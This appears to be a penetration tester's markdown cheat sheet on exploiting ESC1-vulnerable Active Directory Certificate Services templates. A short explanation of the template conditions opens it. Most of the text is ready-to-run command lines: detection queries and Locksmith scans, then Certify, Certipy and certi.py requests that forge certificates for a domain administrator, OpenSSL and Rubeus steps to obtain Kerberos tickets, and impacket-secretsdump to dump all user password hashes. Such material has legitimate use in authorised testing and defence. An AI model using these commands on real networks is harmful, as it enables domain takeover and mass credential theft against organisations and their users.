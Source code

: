 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview: 

A certificate template with the ESC1 vulnerability allows low-privileged users to enroll and request certificates on behalf of any domain object they specify. This means that any user with enrollment rights can request a certificate for a high-privilege account, such as a domain administrator.

To exploit ESC1, the certificate template must meet specific criteria:

- **Enrollment Rights**: The user’s group must have enrollment rights, allowing them to request a new certificate from the Certificate Authority (CA).
- **Extended Key Usage: Client Authentication**: The template must support client authentication, enabling the generated certificate to authenticate to domain computers.
- **Enrollee Supplies Subject**: This option must be set to True, allowing the user to supply the SAN (Subject Alternative Name).
- **No Manager Approval Required**: The certificate request should be auto-approved without needing manager approval.

# Abusing ESC1 Certificates

## PowerShell:
- `Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorpone,DC=com'`

## Locksmith: 
- Source: https://github.com/TrimarcJake/Locksmith
1.  `Import-Module ./Locksmith.psd1`
2.  `Invoke-Locksmith -Scan All`
3. `Invoke-Locksmith -Scans ESC1`
4. `Invoke-Locksmith -Scans ESC1,ESC2,ESC8`

## Certify:
- `Certify.exe request /ca:ca.megacorponeone.com\domain-DC-CA /template:VulnTemplate /altname:'domain admin'`

## Certipy:

Specify a user account in the SAN:
User Account: 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin'
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin@megacorpone.com -dns dc.megacorpone.com'
Computer Account: 
- `certipy-ad req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name spawn --template UserSAN`
`
# Converting the vulnerable ESC1 template:

## OpenSSL

`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

## Rubeus: 

`Rubeus.exe asktgt /user:xadmin /certificate:C:\Temp\cert.pfx`

# Abusing our vulnerable template: 

## certipy
Authenticating with certipy:
- ` certipy-ad auth -pfx vulnerable.pfx -dc-ip 172.21.0.0`
Using secretdumps to dump all user hashes with the extracted hash from certipy:
- impacket-secretsdump 'megacorpone.com/DC1@172.21.0.0' -hashes 'aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3'



Reference: 
 - https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/
 - https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/